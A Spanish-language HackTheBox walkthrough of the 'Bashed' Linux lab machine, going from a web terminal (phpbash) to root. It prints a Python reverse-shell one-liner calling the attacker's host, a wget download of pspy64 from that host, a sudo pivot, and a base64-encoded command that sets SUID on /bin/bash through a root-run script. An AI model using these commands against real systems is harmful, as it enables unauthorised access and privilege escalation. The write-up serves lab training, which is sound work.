 ```yaml
---
layout: single
title: Writeup HTB - Maquina Bashed
comments: true
excerpt: "La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root."
date: 2022-02-02
classes: wide
header:
  teaser: /assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Linux
  - Easy
  - phpbash
  - dirsearch
  - sudo
---
```



# Bashed

<p align="center">
<img src="/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png">
</p>


## Resumen

<div style="text-align: justify">
La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%201.png)

## Pagina web - Port 80

bueno ya que tenemos solo un puerto esta maquina, revisemos la pagina web para ver que contiene. 

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%202.png)

vemos que tenemos una aplicacion llamada phpbash, si acedemos al enlace de la pagina vemos una url en la imagen

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%203.png)

intentamos acceder a dicha url pero sin exito

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%204.png)

tambien vemos que nos proporcionan un repositorio de la aplicacion

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%205.png)

por lo tanto hare un escaneo de directorios con dirsearch

```bash
bashed # ❯ dirsearch -u http://10.129.160.128 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%206.png)

entonces me interesa la ruta dev y vemos que contiene los archivos del repositorio

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%207.png)

dicha aplicacion nos permite ejecutar comandos en el servidor de una terminal web

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%208.png)

## Reverse shell - User www-data

asi que aprovecharemos la ejecucion de comandos para obtener una reverse shell, primero dejaremos el puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%209.png)

y  agremos el siguiente payload a la aplicacion vulnerable

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

logrando conectarnos siendo el user www-data

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2010.png)

## Escalacion de privilegios - user scripts

revisando los permisos de sudoers, encontramos que podemos ejecutar cualquier comando con el user scriptmanager

```bash
www-data@bashed:/tmp$ sudo -l
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2011.png)

asi que obtenemos una sesion con dicho usuario de la siguiente manera

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager /bin/bash
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2012.png)

## Escalacion de privilegios - user root

para escalar privilegios descargare en la maquina victima la herramienta pspy64, ya que dicha herramienta monitoreara todo los procesos y tareas que se ejecuten en la maquina victima. Asi pues para realizar este cometido crearemos un servidor web en python

```bash
bashed # > python3 -m http.server 80
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2013.png)

y descargamos nuestra herramienta de la siguiente manera

```bash
www-data@bashed:/tmp$ wget http://10.10.14.54/pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2014.png)

ejecutamos nuestra herramienta pspy64

```bash
scriptmanager@bashed:/scripts$ chmod +x pspy64 
scriptmanager@bashed:/scripts$ ./pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2015.png)

notamos que se esta ejecutando un script test.py

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2016.png)

si revisamos la carpeta de dicho archivo vemos que podriamos modificar test.py para ejecutar algun comando que nos ayude a escalar privilegios a root

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2017.png)

Por lo tanto modificaremos test.py de esta manera para otorgar permisos de suid al binario bash de esa manera podremos lograr ser root!!

```bash
scriptmanager@bashed:/scripts$ echo aW1wb3J0IG9zCm9zLnN5c3RlbSgnY2htb2QgdStzIC9iaW4vYmFzaCcp | base64 -d > test.py
scriptmanager@bashed:/scripts$ cat test.py 
import os
os.system('chmod u+s /bin/bash')
```

esperamos un momento y revisamos los permisos de /bin/bash, vemos que todo funciono

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2018.png)

asi que ejecutamos /bin/bash para ser root!!

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2019.png)

gracias por ver este writeup, espero que te hayas divertido tanto como yo me diverti haciendolo. Nos vemos Abeljm